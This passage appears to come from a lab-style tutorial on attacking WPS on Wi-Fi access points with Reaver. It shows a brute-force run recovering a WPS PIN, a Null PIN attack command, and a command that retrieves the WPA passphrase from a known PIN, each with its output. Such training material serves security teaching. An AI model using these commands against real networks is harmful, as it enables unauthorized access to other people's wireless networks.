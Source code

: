 ```shell
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] 91.48% complete @ 2024-06-21 11:34:23 (1 seconds/pin)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] Associated with B2:A5:1D:E1:B2:11 (ESSID: GammerZone)
[+] WPS PIN: '12345678'
[+] WPA PSK: '<SNIP>'
[+] AP SSID: 'GammerZone'

```

* * *

### Testing for Null PIN

Suppose neither of these succeed, we could also attempt a `Null PIN` attack. Some access points are vulnerable to Null PIN attacks and will even disclose the WPA-PSK when no PIN is sent. We can do so by employing the following command, specifying the Null PIN with `-p ""` or `-p " "`.

```shell
reaver -b 5A:1A:59:B7:E7:97 -c 1 -i mon0 -p " "

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from 5A:1A:59:B7:E7:97
[+] Received beacon from 5A:1A:59:B7:E7:97
[!] Found packet with bad FCS, skipping...
[+] Associated with 5A:1A:59:B7:E7:97 (ESSID: Teddy)
[+] WPS PIN: ' '
[+] WPA PSK: '<SNIP>'
[+] AP SSID: 'Teddy'

```

* * *

### Retrieving WPA-PSK using Reaver with a Known PIN

If one of our brute forcing attempts succeeds, we can use the following command to verify the captured PIN. In this command, `-p` specifies the PIN, and `-b` specifies the BSSID of the target Wi-Fi network:

```shell
sudo reaver -i mon0 -b 60:38:E0:2A:4F:21 -p 88766197

<snip>
[+] Pin Cracked in 5 seconds
[+] WPS PIN: '88766197'
[+] WPS PSK: 'WPS-Attacks'
[+] AP SSID: 'HTB-Wireless'

```
